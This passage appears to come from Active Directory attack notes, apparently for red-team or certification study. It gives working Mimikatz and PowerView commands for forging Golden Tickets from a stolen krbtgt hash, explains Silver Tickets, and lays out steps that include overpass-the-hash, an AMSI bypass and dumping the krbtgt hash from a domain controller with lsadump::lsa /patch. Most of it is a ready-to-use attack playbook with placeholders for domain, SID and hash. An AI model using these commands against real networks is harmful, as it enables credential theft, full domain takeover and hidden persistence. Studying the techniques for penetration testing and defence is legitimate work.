 + Now on any machine even if it is not part of the domain but can reach DC over network, we can use the information from the krbtgt hash to create a Golden Ticket.

```powershell
#Note the admin SID
. .\PowerView.ps1
Get-DomainSID -Administrator
#Load the krbtgt hash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain-name-here /sid:admin-sid-here /krbtgt:krbtg-hash-here id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

+ Now we can explore the DC file system and execute WMI commands

```powershell
ls \\star-dc\C$\
gwmi -Class win32_computersystem -ComputerName star-dc
```

# <span style="color:lightblue">Silver Ticket</span>

* We will be abusing the 5th step in the Kerberos system with the help of a silver ticket.
* A valid TGS (Golden ticket is TGT).
* Encrypted and Signed by the NTLM hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.
* Services rarely check PAC (Privileged Attribute Certificate).
* Services will allow access only to the services themselves.
* Reasonable persistence period (default 30 days for computer accounts).

List of SPN's : https://adsecurity.org/?page_id=183

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
- [x] 2. Create a **New-PSSession** attaching to the **"domain controller"**
- [x] 3. Enter the new session using **Enter-PSSession** 
- [x] 4. Bypass the *AMSI* 
- [x] 5. Exit
- [x] 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
- [x] 7. Enter the new session using **Enter-PSSession** *again*
- [x] 8. Now we can execute mimikatz on the DC
- [x] 9. Keep note of **krbtgt** hash
- [x] 10. Request access for service of DC using the rc4 hash
- [x] 11. Schedule and execute a task

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">1. Execute mimikatz on DC as DA to get krbtgt hash</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

